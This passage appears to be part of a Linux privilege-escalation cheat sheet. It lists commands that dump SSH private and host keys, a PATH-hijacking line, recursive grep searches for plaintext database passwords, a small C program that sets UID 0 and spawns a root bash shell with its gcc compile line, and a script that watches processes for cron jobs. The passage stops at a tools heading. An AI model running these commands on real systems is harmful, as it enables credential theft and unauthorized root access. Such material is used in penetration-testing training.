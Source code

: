 ```bash
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key

```

### Bad path configuration
```bash
# Require user interaction
export PATH=/tmp' or your path file':$PATH

```
### Find plain passwords
```bash
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always
```
### Scripts
#### SUID
```bash
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid
```
#### PS Monitor for cron
```bash
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
    sleep 1
    old_process=$new_process
done
```
#### Linux Privesc Tools
